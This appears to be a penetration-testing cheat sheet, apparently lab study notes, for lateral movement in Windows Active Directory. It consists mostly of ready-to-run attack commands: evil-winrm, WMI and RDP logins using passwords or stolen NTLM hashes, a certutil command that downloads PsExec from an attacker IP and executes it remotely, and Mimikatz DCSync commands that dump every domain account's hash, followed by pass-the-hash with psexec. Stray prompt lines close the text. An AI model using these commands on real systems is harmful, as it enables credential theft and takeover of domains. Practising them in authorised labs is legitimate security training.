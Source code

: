 ```bash
evil-winrm -u <user> -p <password> -i 172.16.138.83
evil-winrm -u <user> -H <hash> -i 172.16.138.83
```

###### WMI

```bash
proxychains -q impacket-wmiexec forest/bob:'password'@172.16.138.10
impacket-wmiexec forest/bob:'password'@172.16.138.10
```

###### RDP

```bash
rdesktop -u 'USERN' -p 'abc123//' 192.168.129.59 -g 94% -d example
xfreerdp /v:10.1.1.89 /u:USERX /pth:5e22b03be2cnzxlcjei9cxzc9x
xfreerdp /cert-ignore /bpp:8 /compression -themes -wallpaper /auto-reconnect /h:1000 /w:1600 /v:192.168.238.191 /u:admin /p:password
xfreerdp /u:admin  /v:192.168.238.191 /cert:ignore /p:"password"  /timeout:20000 /drive:home,/tmp
```

###### Accessing shares with RDP

```bash
windows + R
type: \\172.16.120.21
Enter User Name
Enter Password
[now view shares via rdp session]
```

#### TGT Impersonation

```bash
PS> klist # should show no TGT/TGS
PS> net use \\SV-FILE01 (try other comps/targets) # generate TGT by auth to network share on the computer
PS> klist # now should show TGT/TGS
PS> certutil -urlcache -split -f http://192.168.119.140:80/PsExec.exe #/usr/share/windows-resources
PS>  .\PsExec.exe \\SV-FILE01 cmd.exe
```

#### Domain Controller Synchronization

To do this, we could move laterally to the domain controller and run Mimikatz to dump the password hash of every user. We could also steal a copy of the NTDS.dit database file, which is a copy of all Active Directory accounts stored on the hard drive, similar to the SAM database used for local accounts.

```bash
.\mimikatz.exe
privilege::debug
lsadump::dcsync /all /csv #First run this to view all the dumpable hashes to be cracked or pass the hash
lsadump::dcsync /user:zenservice #Pick a user with domain admin rights to crack the password or pass the hash
lsadump::dcsync /user:dcorp\krbtgt

Credentials:
  Hash NTLM: d098fa8675acd7d26ab86eb2581233e5
    ntlm- 0: d098fa8675acd7d26ab86eb2581233e5
    lm  - 0: 6ba75a670ee56eaf5cdf102fabb7bd4c
...
kali@kali: impacket-psexec -hashes 6ba75a670ee56eaf5cdf102fabb7bd4c:d098fa8675acd7d26ab86eb2581233e5 zenservice@192.168.183.170
````


[CLIENTWK220]: PS C:\Users\daveadmin\Documents> whoami
[192.168.50.73]: PS C:\Users\jen\Documents> whoami
[192.168.50.73]: PS C:\Users\jen\Documents> hostname